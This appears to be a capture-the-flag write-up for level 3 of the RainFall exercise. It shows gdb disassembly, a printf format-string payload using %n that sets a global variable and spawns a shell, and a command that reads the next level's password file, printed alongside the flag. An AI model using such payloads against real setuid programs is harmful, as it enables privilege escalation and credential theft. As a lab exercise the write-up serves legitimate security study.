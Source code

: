 # Level 3

## Vulnerability

Buffer Overflow Exploit

## Context
```
level3@RainFall:~$ ls -l
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
level3@RainFall:~$ ./level3
hello
hello
```
We have a binary that prints input from the stdin. 

## Solution
Let's take a look at the binary in gdb. 
```
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   %ebp
   0x0804851b <+1>:	mov    %esp,%ebp
   0x0804851d <+3>:	and    $0xfffffff0,%esp
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
```
We can see here that ```level3``` makes a call to ```main()```, which makes a call to a function ```v()```. <br/>
Let's take a deeper look a ```v()```.<br/><br/>
We can see two function calls in ```v()```. <br/>
One is to ```fgets()```, which is protected against buffer overflow attacks. <br/>
The other is to ```printf()```, which is vulnerable to string format exploits. 
```
(gdb) disas v
[...]
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
```
We also find a global variable ```m``` at address 0x804988c.
```
(gdb) break v
(gdb) run
(gdb) info variables
0x0804988c  m
```
Back in ```v()```, we see a comparison of variable ```m``` to the value 64 (or $0x40 in hexadecimal).<br/>
If the comparison is not equal (```jne```), then the program quits.<br/>
If the comparison is true, the program makes a call to ```system()``` and launches a new shell. 
```
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   [...]
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
```
We know that a ```printf()``` string with spurious % specifiers can be used to read whatever is on the stack. <br/>
Let's try it out. We'll use the modifier ```%x```, which will print out addresses on the stack in hexadecimal.
```
level3@RainFall:~$ python -c 'print "AAAA %x %x %x %x %x %x %x"' | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```
Interesting... We can see our buffer "AAAA" in the 4th position on the stack as ```41414141```.<br/>
This means that we can leverage ```printf``` to write our variable ```m```'s address directly in the stack!<br/>
So let's replace our buffer "AAAA" with the address of the variable ```m``` (in little endian).
```
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08'+'%x %x %x %x'" | ./level3
�200 b7fd1ac0 b7ff37d0 804988c
```
Great. Now how do we get our new ```m``` to have the value 64?<br/>
Well, we also know that with ```printf```'s ```%n``` modifier, some values can be written to memory. <br/>
%n means: "the next argument is an int * – go there and write the number characters written so far".<br/>
Let's break down what this exploit format string will look like. <br/>

- address of ```m``` [4 bytes]
- pad of arbitrary data [60 bytes]
- 4$ ($ is a shortcut to specifying the argument number. In this case, the 4th argument on the stack)
- %n (writes 64 to memory at the address of ```m```)

```
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08"+"A"*60+"%4$n"' ; cat -) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
